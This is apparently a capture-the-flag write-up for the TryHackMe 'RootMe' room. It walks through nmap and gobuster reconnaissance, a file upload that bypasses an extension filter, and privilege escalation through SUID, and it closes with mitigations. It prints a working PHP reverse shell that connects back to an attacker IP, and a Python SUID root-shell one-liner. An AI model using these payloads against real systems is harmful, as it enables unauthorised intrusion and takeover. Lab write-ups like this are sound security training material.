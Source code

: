 [RootMe](https://tryhackme.com/room/rrootme)

**Date:** [DD/MM/YYYY]  
**Platform:** [TryHackMe / HackTheBox / PicoCTF / Custom]  
**Difficulty:** [Easy]  
**Objective:** [Reconnaissance, getting a shell, privilege escalation, capture the flag.]

---

## Table of Contents

- [1. Summary](#1-summary)
- [2. Methodology](#2-methodology)
- [3. Reconnaissance](#3-reconnaissance)
- [4. Enumeration](#4-enumeration)
- [5. Exploitation](#5-exploitation)
- [6. Privilege Escalation](#6-privilege-escalation)
- [7. Post Exploitation](#7-post-exploitation)
- [8. Flags / Proof](#8-flags--proof)
- [9. Mitigations](#9-mitigations)
- [10. Notes](#10-notes)

---

## 1. Summary

**IP/URL:** [10.10.120.173]  
**Service/Ports:** [22/SSH, 80/HTTP]  
**Entry Point:** [Web shell upload: shell.phtml because .php wasn't accepted.]  
**Privilege Escalation:** [SUID binary]  
**Outcome:** [Root shell obtained, flags captured]  

---

## 2. Methodology

Following the PTES (Penetration Testing Execution Standard):
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Privilege Escalation  
5. Post-Exploitation  
6. Reporting

---

## 3. Reconnaissance

### Passive

## Active

nmap -sS -sV -sC 10.10.120.173
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

----

## 4. Enumeration
   Web: gobuster
    
Findings:
```
/uploads              (Status: 301) [Size: 316] [--> http://10.10.120.173/uploads/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.120.173/panel/]
```


----

## 5. Exploitation

   On /Panel there is an upload option to test if it is possible to upload a web shell.

   Exploit script:
```
<?php
$sock=fsockopen("10.21.***.***",4444);
$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```
Set up listener:
```
nc -lvnp 4444
```

Gained Access As: www-data

----

## 6. Privilege Escalation

   Method: SUID
```
/usr/bin/python
```
    
    GTFObin:
    ```
    /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'
    ```

Escalated To: root

----

## 7. Post Exploitation

Root Flag found at /root/root.txt

----

## 8. Flags / Proof

User Flag: THM{***_***_*_*****}

Root Flag: THM{********_**********}

    
        

----

## 9. Mitigations

| Vulnerability             | Risk   | Suggested Mitigation                                           |
|---------------------------|--------|-----------------------------------------------------------------|
| SUID bit from Python      | High   | chmod u-s /usr/bin/python                                       |
| Misconfigured Web Server  | High   | Strict File Type Validation; Only allow specific types          |


----

## 10. Notes

Time spent: [e.g., 30 minutes]

 Tools used: nmap, gobuster

 Lessons learned: [This CTF highlighted the critical risk of insecure file upload mechanisms, where bypassing extension filters led to remote code execution. It also reinforced the importance of auditing SUID binaries, as simple misconfigurations enabled privilege escalation to root.]
